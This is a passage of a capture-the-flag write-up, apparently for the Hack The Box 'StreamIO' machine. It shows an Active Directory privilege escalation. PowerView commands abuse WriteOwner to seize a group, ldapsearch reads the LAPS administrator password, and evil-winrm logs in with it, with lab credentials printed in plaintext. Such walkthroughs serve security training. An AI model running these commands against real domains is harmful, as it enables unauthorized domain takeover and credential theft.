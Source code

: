 Since we do not have a shell for JDgodd we can use PowerShell's

`System.Management.Automation.PSCredential` to store the credentials in our current shell.

```
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)
```

As JDgodd has WriteOwner ACL attributed to their account, we can set JDgodd as the domain object owner of CORE STAFF using Set-DomainObjectOwner.

```
Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity JDgodd -Cred $cred
```

Grant all rights via the ACL with Add-DomainObjectACL.

```
Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Cred $cred -Rights All
```

Use Add-DomainGroupMember to finally add JDgodd into the CORE STAFF group that they now own.

```
Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'JDgodd' -Cred $cred
```

Verify that JDgodd is a part of CORE STAFF group.

```
net group 'CORE STAFF'
```



# ReadLAPSPassword 

This abuse can be carried out when controlling an object that has `GenericAll` or `AllExtendedRights` (or combination of `GetChanges` and (`GetChangesInFilteredSet` or `GetChangesAll`) for domain-wise synchronization) over the target computer configured for LAPS. The attacker can then read the LAPS password of the computer account (i.e. the password of the computer's local administrator).

We have confirmed that JDgodd is in the CORE STAFF group. We can now use the ldapsearch utility toextract the administrator password from LAPS. This link features a good explanation of this process.

```
ldapsearch -x -H ldap://streamio.htb -D "JDgodd@streamio.htb" -w 'JDg0dd1s@d0p3cr3@t0r' -b "CN=DC,CN=Computers,DC=streamio,DC=htb" ms-MCS-AdmPwd
```

and boooooom:
we got administrator password:


```
# DC, Domain Controllers, streamIO.htb
dn: CN=DC,OU=Domain Controllers,DC=streamIO,DC=htb
ms-Mcs-AdmPwd: @#+wc31iJ;)ZH%
```


login to administrator:

```
evil-winrm -i streamio.htb -u administrator -p '@#+wc31iJ;)ZH%'
```

